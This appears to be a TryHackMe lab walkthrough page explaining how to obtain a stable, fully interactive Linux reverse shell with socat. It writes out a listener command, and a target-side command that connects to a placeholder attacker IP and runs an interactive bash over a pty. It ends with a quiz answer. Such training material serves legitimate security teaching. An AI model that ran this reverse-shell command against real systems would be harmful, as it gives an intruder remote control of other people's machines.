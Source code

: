 Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:

`socat TCP-L:<port> FILE:`tty`,raw,echo=0`

Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, `stty raw -echo; fg` trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a precompiled socat binary, which can then be executed as normal.

The special command is as follows:

`socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane`

This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with `EXEC:"bash -li"`. We're also passing the arguments: pty, stderr, sigint, setsid and sane:

  • pty, allocates a pseudoterminal on the target -- part of the stabilisation process
  
  • stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
  
  • sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
  
  • setsid, creates the process in a new session
  
  • sane, stabilises the terminal, attempting to "normalise" it.

That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/7b16fdd9-e43a-4ab3-9c2c-dcab4a11f915)

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding `-d -d` into the command. This is very useful for experimental purposes, but is not usually necessary for general use.

# Answer the questions below
How would we get socat to listen on TCP port 8080? `TCP-L:8080`

